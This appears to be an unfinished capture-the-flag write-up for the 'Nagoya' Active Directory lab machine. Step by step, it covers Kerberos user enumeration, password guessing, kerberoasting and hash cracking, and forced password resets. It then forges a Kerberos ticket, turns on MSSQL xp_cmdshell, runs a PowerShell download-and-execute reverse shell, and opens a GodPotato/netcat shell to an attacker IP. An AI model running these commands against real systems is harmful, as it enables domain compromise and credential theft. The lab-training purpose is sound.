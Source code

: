 #InProgress 
```IP
192.168.150.21
```

# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114236.png?raw=true)
## Kerberos
```
./kerbrute userenum --dc 192.168.150.21 -d nagoya-industries.com /usr/share/SecLists-master/Usernames/cirt-default-usernames.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114736.png?raw=true)
I created a users.txt file with the names contained in http 80 and substituted the space between name and surname for a dot, and then confirmed these usernames with kerbrute
```
./kerbrute userenum --dc 192.168.150.21 -d nagoya-industries.com users.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211120839.png?raw=true)
## LDAP
needs authentication
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114934.png?raw=true)
## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211114001.png?raw=true)

# Exploitation
create a list of seasons, months etc
apply a ruleset to it
password is Summer2023
Confirm password
```
nxc smb 192.168.150.21 -u 'fiona.clark' -p 'Summer2023'
```
```
impacket-GetUserSPNs -request -dc-ip 192.168.150.21 nagoya-industries.com/fiona.clark
```
However, the tool targeted kerberoast retrieve more hashes:
```
python3 targetedKerberoast.py -d nagoya-industries.com -u fiona.clark -p Summer2023 -v -o ../../files/targetedkerberoast.hash
```
lets crack some hashes
```
sudo hashcat -m 13100 files/targetedkerberoast.hash /usr/share/wordlists/rockyou.txt --force
```
Credentials obtained:
```
svc_mssql:Service1
```

With this credentials we can also access to smb shares which we will list with
```
smbclient //192.168.150.21/NETLOGON -U nagoya-industries.com/svc_mssql --password='Service1' -c 'recurse;ls'
```
we see some odd .exe
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211155135.png?raw=true)
```
cat ResetPassword.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211155733.png?raw=true)
 it works!
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211160620.png?raw=true)
 it doesnt pwn anything, so we will take a look with bloodhound:
```
bloodhound-python -d nagoya-industries.com -c all -u 'fiona.clark' -p 'Summer2023' -ns 192.168.150.21 --zip
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211163007.png?raw=true)
we have generic all over bethan so lets change his password


```
net rpc password "bethan.webster" "Password123" -U "nagoya-industries.com"/"fiona.clark"%"Summer2023" -S "nagoya-industries.com"
```

and now we can change christopher.lewis password with bethan.webster
```
net rpc password "christopher.lewis" "Password123" -U "nagoya-industries.com"/"bethan.webster"%"Password123" -S "nagoya-industries.com"
```

and now we have access
```
evil-winrm -i 192.168.150.21 -u christopher.lewis -p 'Password123'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211163428.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
mssql is open locally
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212115613.png?raw=true)

psexec doesnt work
```
python /usr/share/doc/python3-impacket/examples/psexec.py nagoya-industries.com/Administrator@192.168.249.21 -k -no-pass -debug
```
we will port forward a golden ticket attack on golden ticket
```
sudo ip route add 240.0.0.1/32 dev ligolo
```
We will then create our NTLM hash from the password we already had: Service1
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212121256.png?raw=true)
Then we will create a golden ticket using that hash:
```
python3 ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -dc-ip 192.168.249.21 Administrator -spn MSSQL/nagoya.nagoya-industries.com
```
```
export KRB5CCNAME=/home/kali/Documents/offsec/PG/Nagoya/exploits/Administrator.ccache
```
```
impacket-mssqlclient -k -debug -target-ip 240.0.0.1 nagoya.nagoya-industries.com
```
Get execution privileges:
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
execute reverse shell:
```
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.189:8000/rev.ps1") | powershell -noprofile'
```
we have impersonate privilege
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212140242.png?raw=true)
abuse it with a reverse shell and godpotato:
```
.\GodPotato-NET2.exe -cmd "\temp\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.189 1234"
```
we are NT Authority System

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212140044.png?raw=true)

### Mimikatz

# Lateral Movement
